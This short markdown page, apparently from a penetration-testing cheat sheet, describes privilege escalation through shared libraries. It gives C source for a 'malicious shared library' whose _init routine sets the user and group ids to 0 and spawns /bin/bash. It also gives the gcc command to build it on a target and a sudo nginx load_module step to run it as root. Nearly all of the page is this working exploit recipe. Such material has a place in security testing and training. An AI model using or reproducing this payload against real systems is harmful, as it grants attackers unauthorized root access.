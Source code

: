 # Shared Library Files

Shared library utilities:

```bash
# Print shared objects required by a binary or shared object
ldd /bin/ls
```

Create a malicious shared library

shell.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

We compile it on the target

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
```

Examples:

```bash
# nginx (add the following line to a copied nginx.conf file in /tmp/nginx.conf)
load_module /tmp/shell.so;
# then run the following command
sudo nginx -c /tmp/nginx.conf
```
